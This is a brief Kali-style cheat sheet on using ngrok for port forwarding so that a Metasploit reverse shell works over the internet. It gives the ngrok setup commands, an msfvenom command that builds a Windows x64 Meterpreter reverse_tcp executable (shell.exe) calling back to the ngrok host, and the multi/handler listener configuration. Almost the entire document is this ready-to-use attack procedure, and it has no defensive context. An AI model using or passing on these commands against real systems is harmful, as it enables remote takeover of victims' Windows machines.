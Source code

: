 # Ngrok - Port Forwarding

## Install Ngrok

[https://ngrok.com/](https://ngrok.com/)\
\
**Sign up and download for linux**

```
cd Downloads
	
mv ngrok-stable-linux-amd64.tgz /home/kali/Desktop
	
tar -xvf ngrok-stable-linux-amd64.tgz
	
./ngrok authtoken <auth token>
	
./ngrok help
	
./ngrok tcp 5555
```

#### Find the IP Address

```
host 0.tcp.ngrok.io
```

This IP address will be used as a locahost in payload creation

## Simple Payload

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ngrok ip> LPORT=<ngrok port> -f exe -o shell.exe
```

## Set Up Listener

```
msfconsole

use exploit/multi/handler

set payload windows/x64/meterpreter/reverse_tcp

set LHOST 0.0.0.0   //means we are listening to any incoming connection

set LPORT 5555

run
```
